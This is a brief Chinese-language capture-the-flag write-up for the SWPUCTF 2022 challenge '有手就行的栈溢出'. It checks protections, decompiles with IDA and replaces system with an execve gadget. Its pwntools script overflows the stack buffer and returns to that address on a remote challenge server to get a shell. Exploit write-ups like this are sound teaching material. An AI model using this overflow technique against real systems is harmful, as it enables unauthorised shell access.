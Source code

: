 # [SWPUCTF 2022 新生赛]有手就行的栈溢出

查看保护

![image-20250204115526154](./../images/image-20250204115526154.png)

这里是一些常规的保护开启下一步就是ida反编译

![image-20250204115644145](./../images/image-20250204115644145.png)

![image-20250204115659323](./../images/image-20250204115659323.png)

这里发现前面的system不能使用但是在函数表中发现了execve函数它也可以使得我们得到binsh的权限因此可以用这个来代替system

![image-20250204115818840](./../images/image-20250204115818840.png)

发现栈溢出漏洞

exp：

```python
from pwn import *

io = remote("node5.anna.nssctf.cn",26030)
# io= process()

binsh = 0x0401257
payload = b'a'*(0x20+8)+p64(binsh)
io.send(payload)
io.interactive()
```

